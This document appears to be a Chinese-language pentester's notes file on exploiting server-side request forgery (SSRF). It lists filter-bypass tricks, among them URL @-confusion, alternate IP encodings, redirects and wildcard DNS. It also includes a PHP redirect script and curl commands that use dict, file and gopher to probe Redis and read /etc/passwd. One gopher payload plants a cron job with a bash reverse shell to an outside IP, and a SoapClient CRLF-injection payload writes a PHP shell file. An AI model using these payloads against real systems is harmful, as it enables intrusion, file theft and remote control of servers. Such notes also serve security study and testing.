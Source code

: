 # ssrf

## 绕过小技巧

1.http://baidu.com@www.baidu.com/与http://www.baidu.com/请求时是相同的

2.各种IP地址的进制转换

3.URL跳转绕过：http://www.hackersb.cn/redirect.php?url=http://192.168.0.1/

4.短网址绕过 http://t.cn/RwbLKDx

5.xip.io来绕过：http://xxx.192.168.0.1.xip.io/ == 192.168.0.1 (xxx 任意）

指向任意ip的域名：xip.io(37signals开发实现的定制DNS服务)

6.限制了子网段，可以加 :80 端口绕过。http://tieba.baidu.com/f/commit/share/openShareApi?url=http://10.42.7.78:80

7.探测内网域名，或者将自己的域名解析到内网ip

8.例如 http://10.153.138.81/ts.php , 修复时容易出现的获取host时以/分割来确定host，

但这样可以用 http://abc@10.153.138.81/ 绕过

## 收藏

 [https://uknowsec.cn/posts/notes/SSRF%E6%BC%8F%E6%B4%9E%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E5%AD%A6%E4%B9%A0.html](https://uknowsec.cn/posts/notes/SSRF漏洞的利用与学习.html) 

## 利用302跳转等来绕过协议限制

当URL存在临时(302)或永久(301)跳转时，则继续请求跳转后的URL

那么我们可以通过HTTP(S)的链接302跳转到gopher协议上。

我们继续构造一个302跳转服务，代码如下302.php:

```php
<?php  
    $schema = $_GET['s'];
	$ip     = $_GET['i'];
	$port   = $_GET['p'];
	$query  = $_GET['q'];
	if(empty($port))
    {      
		header("Location:$schema://$ip/$query"); 
    }else 
    {
        header("Location: $schema://$ip:$port/$query"); 
    }
```



#### 利用测试

```
# dict protocol - 探测Redisdict://127.0.0.1:6379/info  curl -vvv 'http://sec.com:8082/ssrf2.php?url=http://sec.com:8082/302.php?s=dict&i=127.0.0.1&port=6379&query=info'# file protocol - 任意文件读取curl -vvv 'http://sec.com:8082/ssrf2.php?url=http://sec.com:8082/302.php?s=file&query=/etc/passwd'# gopher protocol - 一键反弹Bash# * 注意: gopher跳转的时候转义和`url`入参的方式有些区别curl -vvv 'http://sec.com:8082/ssrf_only_http_s.php?url=http://sec.com:8082/302.php?s=gopher&i=127.0.0.1&p=6389&query=_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0  a%0a%0a*/1%20*%20*%20*%20*%20bash%20-i%20>&%20/dev/tcp/103.21.140.84/6789%200>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d  %0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a'
```



## soap

 https://www.anquanke.com/post/id/153065#h2-5 

### 利用条件

调用soap的`__call`方法

### payload

```
<?php
$target = 'http://127.0.0.1/test.php';
$post_string = '1=file_put_contents("shell.php", "<?php phpinfo();?>");';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: xxxx=1234'
    );
$b = new SoapClient(null,array('location' => $target,
'user_agent'=>'wupco^^Content-Type:application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length:'.(string)strlen($post_string).'^^^^'.$post_string,
'uri'=> "aaab"));
//因为user-agent是可以控制的，因此可以利用crlf注入http头来发送post请求
$aaa = serialize($b);
$aaa = str_replace('^^','%0d%0a',$aaa);
$aaa = str_replace('&','%26',$aaa);

$c=unserialize(urldecode($aaa));
$c->ss();  //调用_call方法触发网络请求发送
?>
```





## gopher





## 绕过

利用`http://example.com@evil.com`来绕过

利用ip地址的不同形式绕过

1. 0177.00.00.01(八进制)
2. 2130706433（十进制）
3. 0x7f.0x0.0x0.0x1
4. 127.1（IP地址省略写法）

域名解析绕过


